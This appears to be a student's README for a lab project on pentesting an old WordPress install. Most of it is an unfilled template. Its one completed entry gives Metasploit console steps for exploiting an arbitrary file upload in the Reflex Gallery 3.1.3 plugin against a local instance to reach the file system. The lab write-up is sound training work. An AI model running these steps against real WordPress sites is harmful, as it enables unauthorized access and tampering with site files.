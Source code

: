 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. (Required) Arbitrary File Upload
  - [ ] Summary: Using Metasploit, allows the user to gain access to the file system.
    - Vulnerability types: Arbitrary File Upload
    - Tested in version: 3.1.3 (Reflex Gallery)
    - Fixed in version: 3.1.4 (Reflex Gallery)
  - [ ] GIF Walkthrough: <img src="arbitrary_file.gif">
  - [ ] Steps to recreate: 
		1. Start service postgresql start
		2. msfdb init
		3. msfconsole
		4. At this point, you will be inside of the Metasploit console
		5. db_status (If it reads Connected to msf, you're good to go)
		6. search Reflex
		7. use 0
		8. set RHOST 127.0.0.1
		9. set RPORT 8080
		10. set LHOST 192.168.65.3 (Different in some cases, it's eth0 under ifconfig)
		11. exploit (this will gain you access to the file system to edit php files)
### 2. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: -

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with Screen To GIF

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.